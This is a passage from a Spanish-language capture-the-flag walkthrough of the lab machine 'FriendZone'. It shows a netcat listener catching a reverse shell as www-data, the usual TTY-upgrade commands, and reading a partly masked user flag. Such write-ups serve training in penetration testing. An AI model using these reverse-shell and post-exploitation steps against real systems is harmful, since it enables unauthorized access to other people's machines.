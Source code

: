 Se queda cargando el navegador y si volvemos a nuestra consola en escucha recibimos la reverse shell:

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.123] 41364
bash: cannot set terminal process group (737): Inappropriate ioctl for device
bash: no job control in this shell
www-data@FriendZone:/var/www/admin$ whoami
whoami
www-data
www-data@FriendZone:/var/www/admin$
```
Para tener una consola full interactiva haremos el tratamiento habitual:

```sh
www-data@FriendZone:/var/www/admin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@FriendZone:/var/www/admin$ ^Z
zsh: suspended  nc -nlvp 443
```
Nos vuelve a máquina local:

```sh
stty raw -echo; fg
reset xterm
```

Nos vuelve a máquina remota y por último para el tratamiento de la tty:

```sh
www-data@FriendZone:/var/www/admin$ export TERM=xterm
www-data@FriendZone:/var/www/admin$ export SHELL=bash
www-data@FriendZone:/var/www/admin$ stty rows 38 columns 184
```

Vayamos a por la primera flag:

```sh
www-data@FriendZone:/var/www/admin$ cd /home
www-data@FriendZone:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Sep 13  2022 .
drwxr-xr-x 22 root   root   4096 Sep 13  2022 ..
drwxr-xr-x  5 friend friend 4096 Sep 13  2022 friend
www-data@FriendZone:/home$ cd friend
www-data@FriendZone:/home/friend$ ls -la
total 36
drwxr-xr-x 5 friend friend 4096 Sep 13  2022 .
drwxr-xr-x 3 root   root   4096 Sep 13  2022 ..
lrwxrwxrwx 1 root   root      9 Jan 24  2019 .bash_history -> /dev/null
-rw-r--r-- 1 friend friend  220 Oct  5  2018 .bash_logout
-rw-r--r-- 1 friend friend 3771 Oct  5  2018 .bashrc
drwx------ 2 friend friend 4096 Sep 13  2022 .cache
drwx------ 3 friend friend 4096 Sep 13  2022 .gnupg
drwxrwxr-x 3 friend friend 4096 Sep 13  2022 .local
-rw-r--r-- 1 friend friend  807 Oct  5  2018 .profile
-r--r--r-- 1 root   root     33 Mar 21 15:39 user.txt
www-data@FriendZone:/home/friend$ cat user.txt
6da03d37d182303be4ed8b********
```
